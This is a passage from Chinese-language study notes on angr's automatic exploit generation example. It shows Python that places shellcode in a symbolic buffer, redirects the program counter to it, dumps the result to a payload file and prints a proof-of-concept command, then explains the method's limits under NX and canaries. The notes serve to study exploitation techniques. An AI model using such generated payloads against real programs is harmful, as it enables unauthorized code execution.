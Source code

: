 ## part 2
第二个部分主要判断找到的状态是不是`exploitable`.
```python
	for addr in find_symbolic_buffer(exp,len(shellcode)):
		mem		= exp.memory.load(addr,len(shellcode))
		payload = exp.solver.BVV(shellcode)
		if exp.satisfiable(extra_constraints=(mem==payload,exp.regs.pc==addr)):
			exp.add_constraints(mem=payload)
			exp.add_constraints(exp.regs.pc==addr)
			break
			#seak for a exploitable state
	print "PAYLOAD->./payload"
	fp=open("./payload","wb")
	fp.write(exp.posix.dumps(0))
	fp.close()
	print "Poc:\n(cat ./payload; cat -)| ./demo_bin"
```
主要是判断第一部分中找到的状态是不是存在可以放下`shellcode`的长度的`symbol`,可以的话添加两个约束
1. mem == shellcode
2. pc  == mem
也就是将`shellcode`以及跳转到`shellcode`作为约束.可以满足的话就认为是`exploitable`.

# Epilogue
这个example给我们了一种基础的过程: 
1. 通过符号执行发现可以控制pie
2. 检测是否满足攻击条件,生成(导出)payload

`solve.py` 也决定了其有很多局限性,首先其采用的是`ret2shellcode`的方式所以对于开启了`Not Executable`的程序是没有用的,而且其检测是否可以攻击的依据是`PC`能否被控制,虽然可以检测出没有`canary`的栈溢出但是不能检测其他溢出例如`bss段`上的溢出,总的来说这个样例子虽然有局限性但是短短几十行就可以通过符号执行来检测某些情况的栈溢出,在那些情况下如果没有NX可以生成PAYLOAD.

[0]: https://23r3f.github.io/2019/09/25/angr%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/
[1]: https://github.com/angr/angr-doc/tree/master/examples/insomnihack_aeg
[2]: https://docs.angr.io/appendix/options
[3]: https://github.com/n132/Watermalon/tree/master/Angr-examples/C7